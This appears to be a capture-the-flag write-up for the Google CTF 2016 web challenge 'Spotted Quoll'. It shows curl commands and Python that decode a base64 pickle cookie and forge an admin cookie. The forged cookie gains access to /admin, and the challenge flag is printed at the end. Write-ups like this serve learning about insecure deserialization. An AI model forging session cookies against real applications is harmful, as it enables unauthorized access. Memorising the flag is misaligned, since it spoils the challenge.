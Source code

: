 ```yaml
---
layout: post
alias: "/blog/2016/05/02/google-ctf-2016-spotted-quoll/"
date: 2016-05-02T02:33:29+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


# Google Capture The Flag 2016: Spotted Quoll

You can find the file `/getCookie` in html, so try to GET:

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/getCookie
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Date: Sun, 01 May 2016 06:38:21 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Expires: Sun, 01 May 2016 06:38:21 GMT
```

A mysterious cookie is given.
The string `obsoletePickle` seems something like python's `pickle`.
This is true, you can decode this as pickle after base64. (this are a word `obsolete`, but you can decode not only Python 2.x, also Python 3.x).

``` python
>>> pickle.loads(base64.b64decode(b'KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'))
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

Due to the error message with above cookie is `https://spotted-quoll.ctfcompetition.com/#err=user_not_found`, lets try send a cookie baked with:

```
>>> base64.b64encode(pickle.dumps({'user': 'admin', 'subtle': 'hint', 'python': 'pickles'}, protocol=0))
b'KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4='
```

To avoid such a error `https://spotted-quoll.ctfcompetition.com/#err=unsupported%20pickle%20protocol%3A%203`, you should specify the pickle-protocol as $0$.

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/admin --cookie obsoletePickle=KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4=
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:53:33 GMT
Server: Google Frontend
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```
